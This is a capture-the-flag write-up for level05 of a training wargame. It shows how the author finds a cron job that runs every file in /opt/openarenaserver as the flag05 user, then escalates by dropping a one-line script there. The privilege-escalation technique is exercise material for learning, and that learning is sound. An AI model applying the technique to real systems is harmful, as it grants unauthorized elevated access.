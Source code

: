# foothold

Enumeration is key, I already know everything I neet to know about `level05`,
nothing, **nothing**, can surprise me.

So this user has on apache site, but is the one I used for level04, so let's
forget about it.

This user also has a mailbox in `/var/mail/level05`.

And some weird files with ACLs:

```raw
# file: /var/mail/level05
USER   root      rw-
user   flag05    r--
GROUP  mail      r--
mask             r--
other            r--

# file: /opt/openarenaserver
USER   root      rwx  rwx
user   level05   rwx  rwx
user   flag05    rwx  rwx
GROUP  root      r-x  r-x
mask             rwx  rwx
other            r-x  r-x

# file: /usr/sbin/openarenaserver
USER   flag05    rwx
user   level05   r--
GROUP  flag05    r-x
mask             r-x
other            ---
```

So... let's check the mailbox first, this seems fun.

So... what a same, the mailbox is just some cron job syntax:
```raw
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

So, let's take as a hint, although `pspy` did not found that earlier, but well,
let's continue.

`/opt/openarenaserver/` is an empty directory... interesting.

`/usr/sbin/openarenaserver` is a shell script, that iterates every file in the
`/opt/openarenaserver` directory... that's our exploit.

# exploit

The `/usr/sbin/openarenaserver` script iterates every file in
`/opt/openarenaserver`, and for each entry, it runs:
```bash
(ulimit -t 5; bash -x "$i")
```

So, it uses a subshell and limits the runtime of the commands executed within it
to 5 seconds, so our `bash -x "$i"` will have 5 seconds to get us the flag.

The bash `-x` option just opens bash in debug mode, it will pint a trace of
every command, very useful for debbuging scripts like `bash -x ./my-script.sh`,
but in this case is irrelevant, we don't care if bash runs in debbuging mode or
not.

For reference, this is the code:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

So we just need to create a file and it will be executed with bash,
let's proceed to the injection:
```bash
echo 'getflag > /dev/shm/flag' > /opt/openarenaserver/foo
```

And wait for the cron job to run and execute it...

Let's do a quick `watch` so we know when the file is removed:
```bash
watch ls /opt/openarenaserver
```

And wait...

And wait...

And wait...

And we have the flag! Another easy one!
